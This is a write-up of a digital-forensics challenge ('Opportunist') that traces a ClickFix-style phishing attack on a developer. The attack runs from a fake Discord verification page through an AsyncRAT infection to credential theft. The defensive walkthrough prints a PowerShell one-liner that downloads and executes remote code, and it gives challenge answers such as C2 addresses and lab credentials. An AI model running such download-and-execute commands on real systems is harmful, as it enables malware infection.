# Opportunist

## Sherlock scenario

Klaus Weber, a DevOps engineer at TechFlow GmbH, reported suspicious activity on his workstation after interacting with what he believed was a legitimate job recruiter. The security team immediately isolated the system and captured a memory dump along with forensic artifacts. Analyze the evidence to determine the scope of compromise and reconstruct the attacker's actions.

## Given artifact

A memory dump file and the C drive of victim machine

## Questions

### 1. Klaus became suspicious after speaking with a job recruiter after noticing suspicious activity on his system. When did the attacker first contact him?

Indeed, this is the most difficult question for me in this sherlock, and is the last question I solved as well. The main obstacle is that I don't know discord is essentially a web browser. You might think of Discord as a standalone desktop application, but it is actually built on Electron. Electron is a framework that packages a Chromium web browser and a Node.js backend into a single desktop app. Because Discord is just a disguised web browser, it inherits all of Google Chrome's caching mechanisms. When Discord loads images, audio, or API requests, it saves them to disk exactly like Chrome does. 

Discord loads our chat history by sending HTTP requests for the backend `https://discordapp.com/api/v9/channels/(chat ID)/messages?limit=(max message)`. I open the cache folder in user's AppData\Roaming\discord in ChromeCacheView:



This json file holds the conversation with the malicious recruiter. Let's open it in browser to see clearly:



Got the timestamp here.

**ANswer: 2025-11-28 12:29:07**

### 2. The phishing site had a legitimate-looking title to blend in and appear trustworthy to the end user. What was the title of the phishing site's URL?

The link is sent in the last message, I forgot to capture it but no problem, the victim clicked it so let's open the Chrome History database:



From this, we can be sure it's clickfix malware, how the hell could a developer fall into this trap ???

**Answer: Discord - Verification Required**

### 3. The victim was tricked into executing a malicious command. What is the decoded command?

Knowing a fake verification page would ask user to paste a script to Run (Windows+R), I open NTUSER.dat with Eric Zimmerman's Registry Explorer and look for RunMRU key:



The command can be seen there, I use cyberchef to decode base64:



**Answer: `IEX(New-Object Net.WebClient).DownloadString('https://pastebin.com/raw/n6KFbBuZ')`**

### 4. The initial payload downloaded a dropper onto the system. What is the full URL from which the dropper was downloaded?

Open that pastebin raw content, we see it downloads a dropper and place it inside temp folder with the name `sysupdate.exe`:



**Answer: `http://192.168.1.100/payloads/installer.exe`**

### 5. The dropper placed a file on the system. What is the full path of the first file dropped?

I use PECmd on the malicious sysupdate.exe's prefetch, svchost.exe is masqueraded again:



**Answer: C:\Users\Klaus Weber\AppData\Local\Temp\SvcHost.exe**

### 6. A script was created on the endpoint via the initial dropper, which facilitated the staging and execution of another executable masquerading as a legitimate Windows process. When was this malicious file executed?

Locate the fake svchost's prefetch and run PECmd again to get the time it executes:



Perhaps due to a bit delay, the answer is 1 second shifted

**Answer: 2025-11-29 07:17:40**

### 7. What was the total number of bytes exfiltrated over the network by the first dropped malicious file?

Network monitor ? Time for SRU to shine:



**Answer: 297708**

### 8. The attacker established multiple persistence mechanisms on the system to maintain access. What is value name of the first persistence mechanism established?

At first I found this as I see `sysupdate.exe` touche shtasks.exe, but later we will actually see the malware create this backdoor:





**Answer: SystemUpdate**

### 9. What is the value name of the second persistence mechanism that was established?

You will know after reading the next-stage malware:



**Answer: Realtek HD Audio Universal Service**

### 10. What is the SHA256 hash of the script the attacker used to decrypt the C2 payload?

I use volatility to locate and dump the `updater.ps1` from memory, note that the file is dumped with the page size, meaning there would be a lot of trailing zeros after the true content:



Actual content ends at 0x3ce, use a quick script to take the true hash:



**Answer: 2d4124a46a7a6a9e9b1bf2d100b5ff98a63ee6e05b21dc1138a637788cf992a0**

### 11. What xor key did the attacker use to decrypt the C2 malware payload?

Look at the powershell script:



**ANswer: 0x42**

### 12. What is the attackers C2 IP and port?

I carve the sysdata.tmp from the memdump and xor with 0x42 to get the true malware, it's AsyncRAT, a .NET malware so I use dnSpy to decompile it. In the settings namespace, we can see several configurations including a pastebin URL:



Open it, we will see the IP and port

**Answer: 172.16.150.130:6606**

### 13. The C2 payload used an external URL to fetch its config. What is the full URL?

It's the mentioned link

**Answer: `https://pastebin.com/raw/c2pMswe8`**

### 14. The payload was identified as a possible remote access trojan belonging to a well-known malware family. What is the malware version and the key value?

See in the previous snapshot

**Answer: 0.5.7B_NYAN CAT**

### 15. The attacker stole the victim's Docker Hub credentials alongside other critical information. What are the stolen credentials?

Upon inspecting Recent folder, I stumple upon a weird file, a file with name `backup` in a dev's machine is often a good thing:



I look up for it in the parsed MFT, and luckily, it's resident with small size, I then use a python script to extract its content, it turns out that the dev stores all his passwords here:



Must be a vibe-coding developer...

**Answer: techflow-devops:D0ck3rHub_2025!**
